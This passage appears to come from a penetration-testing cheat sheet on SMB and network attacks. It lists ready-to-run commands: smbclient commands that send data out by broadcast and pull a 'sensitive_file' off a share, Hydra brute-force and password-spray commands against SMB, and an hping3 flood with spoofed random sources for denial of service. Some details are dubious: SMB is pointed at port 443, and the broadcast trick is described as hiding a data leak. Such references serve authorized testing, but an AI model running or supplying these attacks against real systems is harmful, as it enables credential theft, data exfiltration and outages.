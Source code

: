 ### Data Exfiltration

#### Exfiltration via Broadcast

*   **Tool:** \[\[Custom Scripts]], \[\[SMBClient]]

    ```bash
    echo "exfil data" | smbclient -M <broadcast_address>
    ```
* **Description:** Use broadcast messages to exfiltrate data from a network, making it harder to track the source of the data leak.

#### Exfiltrating Data via SMB

*   **Tool:** \[\[SMBClient]]

    ```bash
    smbclient //<target_ip>/<share_name> -U <username> -c "get sensitive_file.txt"
    ```
* **Description:** Copy sensitive files from the SMB server to the attacker’s machine.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 443 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 443 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.
